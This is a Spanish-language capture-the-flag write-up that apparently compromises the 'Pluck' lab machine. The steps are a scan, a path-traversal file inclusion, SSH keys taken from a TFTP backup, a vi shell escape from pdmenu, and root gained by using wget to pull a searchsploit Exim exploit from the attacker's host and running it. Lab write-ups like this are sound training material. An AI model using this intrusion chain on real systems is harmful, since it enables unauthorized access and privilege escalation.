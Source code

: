 

***
- Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa. Esta maquina ya te muestra la IP al momento de arrancar el sistema, pero igual prefiero utilizar mi  [script](https://github.com/JoseVazquez101/My-scr1pt5/blob/main/hostscan.sh) para escanear mi red local y asegurarme que todo vaya en orden.

- Añadimos una resolución DNS local con el siguiente comando:
  ~~~bash
  echo '192.168.17.135  sumo.vh' >> /etc/hosts
  ~~~
- Si todo funciona, llegaría la hora de realizar el escaneo con nmap, con los siguientes parámetros:
~~~ bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV pluck.vh
~~~
- Vemos que hay cuatro servicios activos, entre los cuales parecen encontrarse ssh, http, mysql y mDNS:
![[Pasted image 20231114144603.png]]
- La pagina web tramita sus solicitudes a través del campo de la URL, indicando que pagina visita de esta forma:
  ![[Pasted image 20231114144852.png]]
  - Esto puede derivar a una LFI si nos permite apuntar a recursos fuera de la carpeta anterior, indicando con `../` que queremos movernos hacia atrás:
  ![[Pasted image 20231114145046.png]]
  - Hasta abajo, observamos que hay una ruta absoluta a lo que parece ser un script para backups, por lo que podremos echar un vistazo a su contenido:

![[Pasted image 20231114145222.png]]
- Parece ejecutar una serie de comandos, pero eso no importa mucho. Vemos que nos dice que podemos obtener el recurso via `tFTP`, el cual es un protocolo upd parecido a FTP. Nos conectamos y obtenemos el recurso.
![[Pasted image 20231114150337.png]]
- Podemos analizarlo si lo descomprimimos con:
~~~bash
7z x backup.tar
~~~

Son varias carpetas, pero en una podemos ver pares de llaves, posiblemente pares de llaves publicas y privadas de ssh.
![[Pasted image 20231114150507.png]]

- Si listamos los contenidos, parecen cambiar en que algunas utilizan DSS y otras RSA para cifrarlas, en este punto probé todas las claves publicas hasta que alguna resultara valida, pues todas son del usuario Paul

~~~ bash
ssh paul@pluck.vh -i <pub_key>
~~~

- En este caso, si disponemos de la clave privada correcta alojada en el servidor victima, no nos debería pedir proporcionar una contraseña:
- Finalmente con una de las llaves podemos acceder, pero este usuario no poseé una bash, sino algo llamado pdmenu:
![[Pasted image 20231114151537.png]]
- Tenemos un modulo para editar archivos, y este utiliza vi. Según [GTFOBins](https://gtfobins.github.io/gtfobins/vi/) existe una manera para hacer que este binario nos lance una bash.
- Nos metemos a cualquier archivo para editar, ya sea /etc/passwd y presionamos SHIFT+: para insertar las siguientes variables
~~~bash
:set shell=/bin/sh
:shell
~~~

***

<h3>PrivEsc</h3>
- Ya con completa libertad de movilidad, empecemos con listar los permisos SUID.
~~~ bash
find / -perm -4000 2>/dev/null
~~~
![[Pasted image 20231114152649.png]]
- Vemos un binario `exim`, el cual es empleado para servicios de correo en equipos Unix
	- Exim: https://www.exim.org/
- Nos deja ver la versión, así que podríamos intentar ver si existe algún exploit conocido en searchsploit, así que lo movemos y pasamos a la maquina victima:

- Maquina local:
  ~~~bash
  searchsploit -m linux/local/39535.sh
  python3 -m http.server 9999
  wget 192.168.17.128:9999/39535.sh
  mv 39535.sh exploit.sh
  chmod +x exploit.sh
  ./exploit.sh
  ~~~ 
![[Pasted image 20231114153456.png]]
![[Pasted image 20231114153558.png]]
- Y con esto ya seriamos root :D
